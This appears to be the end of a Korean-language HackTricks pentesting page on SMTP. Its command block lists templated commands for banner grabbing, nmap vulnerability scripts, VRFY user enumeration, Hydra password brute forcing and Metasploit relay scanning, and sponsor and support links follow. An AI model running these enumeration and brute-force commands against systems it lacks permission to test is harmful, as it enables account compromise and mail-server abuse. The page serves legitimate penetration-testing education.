* [https://www.reddit.com/r/HowToHack/comments/101it4u/what\_could\_hacker\_do\_with\_misconfigured\_smtp/](https://www.reddit.com/r/HowToHack/comments/101it4u/what\_could\_hacker\_do\_with\_misconfigured\_smtp/)

## HackTricks 자동 명령
```
Protocol_Name: SMTP    #Protocol Abbreviation if there is one.
Port_Number:  25,465,587     #Comma separated if there is more than one.
Protocol_Description: Simple Mail Transfer Protocol          #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for SMTP
Note: |
SMTP (Simple Mail Transfer Protocol) is a TCP/IP protocol used in sending and receiving e-mail. However, since it is limited in its ability to queue messages at the receiving end, it is usually used with one of two other protocols, POP3 or IMAP, that let the user save messages in a server mailbox and download them periodically from the server.

https://book.hacktricks.xyz/pentesting/pentesting-smtp

Entry_2:
Name: Banner Grab
Description: Grab SMTP Banner
Command: nc -vn {IP} 25

Entry_3:
Name: SMTP Vuln Scan
Description: SMTP Vuln Scan With Nmap
Command: nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 {IP}

Entry_4:
Name: SMTP User Enum
Description: Enumerate uses with smtp-user-enum
Command: smtp-user-enum -M VRFY -U {Big_Userlist} -t {IP}

Entry_5:
Name: SMTPS Connect
Description: Attempt to connect to SMTPS two different ways
Command: openssl s_client -crlf -connect {IP}:465 &&&& openssl s_client -starttls smtp -crlf -connect {IP}:587

Entry_6:
Name: Find MX Servers
Description: Find MX servers of an organization
Command: dig +short mx {Domain_Name}

Entry_7:
Name: Hydra Brute Force
Description: Need Nothing
Command: hydra -P {Big_Passwordlist} {IP} smtp -V

Entry_8:
Name: consolesless mfs enumeration
Description: SMTP enumeration without the need to run msfconsole
Note: sourced from https://github.com/carlospolop/legion
Command: msfconsole -q -x 'use auxiliary/scanner/smtp/smtp_version; set RHOSTS {IP}; set RPORT 25; run; exit' && msfconsole -q -x 'use auxiliary/scanner/smtp/smtp_ntlm_domain; set RHOSTS {IP}; set RPORT 25; run; exit' && msfconsole -q -x 'use auxiliary/scanner/smtp/smtp_relay; set RHOSTS {IP}; set RPORT 25; run; exit'

```
<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**취약점 평가 및 침투 테스트를 위한 즉시 사용 가능한 설정**. 20개 이상의 도구 및 기능을 사용하여 어디서나 전체 침투 테스트를 실행하세요. 우리는 침투 테스터를 대체하지 않습니다 - 그들이 더 깊이 파고들고, 쉘을 터뜨리고, 재미를 느낄 수 있도록 맞춤형 도구, 탐지 및 악용 모듈을 개발합니다.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
